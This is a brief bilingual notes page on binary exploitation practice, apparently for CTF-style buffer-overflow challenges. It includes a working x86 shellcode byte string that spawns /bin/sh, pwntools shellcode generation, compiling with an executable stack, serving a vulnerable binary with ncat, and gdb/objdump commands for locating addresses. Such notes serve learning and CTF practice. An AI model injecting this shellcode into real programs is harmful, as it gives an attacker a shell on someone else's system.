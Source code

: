 


![](https://gitee.com/geekhall/pic/raw/main/img/20220703091821.png)

## 生成shellcode

use pwntools:

```
shellcode = asm(shellcraft.sh())
```

or

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

## Test shellcode

```bash
gcc -m32 -z execstack test.c -o test
```


## 本地测试环境

可以使用`ncat`命令在本地启动一个监听执行特定binary程序：
```bash
ncat -ve ./bof -kl 8888
```
kl表示keep listen

## 查看函数地址

gdb中使用 `info function`查看


```bash
objdump -t buffer-overflow|grep l33t
```

## 查看全局变量地址

```
nm binaryfile | grep name
```
或者，gdb中执行：
```
x/x &name
```

## 调试
gdb attach

